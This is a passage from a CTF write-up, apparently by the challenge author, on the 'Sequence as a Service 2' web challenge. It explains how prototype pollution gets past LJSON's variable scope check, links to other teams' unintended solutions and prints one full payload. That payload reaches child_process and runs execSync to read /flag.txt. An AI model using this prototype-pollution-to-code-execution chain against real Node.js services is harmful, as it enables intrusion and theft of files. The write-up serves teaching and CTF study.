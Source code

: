 ```javascript title="solver/index.js"
};
main();
```

`LJSON.parse` disallows usage of variables that don't exist in the scope:

```javascript
// From: https://github.com/MaiaVictor/LJSON/blob/0c06399baddc08ede6457a59505e188ec0828dab/LJSON.js#L315-L324
function LJSON_variable(binders,scope){
    return function(){
        var name = P.word();
        if (name === null)
            return null;
        if (scope[name] === undefined)
            throw ("LJSON parse error: "+name+" is not defined");
        return toName(scope[name]);
    };
};
```

However, by the above Prototype Pollution, you can use the variable (function) `eval` although it doesn't exist in the scope.

### Unintended Solutions

#### Prototype Pollution to `Array.prototype.join`

- https://satoooon1024.hatenablog.com/entry/2021/12/15/SECCON_CTF_2021_Writeup#Sequence-as-a-Service-2-19-solves

#### `require('./lib.js').__proto__ = require('child_process')`

- https://nanimokangaeteinai.hateblo.jp/entry/2021/12/14/223037#Web-210-Sequence-as-a-Service-2-19-solves

#### Prototype Pollution using `toString` defined as an impure function

```javascript
LJSON.stringify(($, map, n) => $(",",
  $(",",
    $(",", $("set", map, 0, $("set", map, "__proto__", 0))),
    $(",",
      $("set", map, "toString", () =>
        $(
          ",",
          $("set", map, 100, $("get", map, 101)),
          $(",", $("set", map, 101, "constructor"), $("get", map, 100))
        )
      ),
      $("set", $("get", map, 0), "_constructor", $("set", $, map, 0))
    ),
  ),
  $(
    "_constructor",
    'return global.process.mainModule.constructor._load("child_process").execSync("cat /flag.txt").toString()'
  )(),
));
```


[^unintended]: I welcome unintended solutions because they help me learn something and create diversity in the challenges (but, as an author, I should emit no unintended solutions to maintain the quality of challenges).
[^xs-leak]: Frame Counting | XS-Leaks Wiki: https://xsleaks.dev/docs/attacks/frame-counting/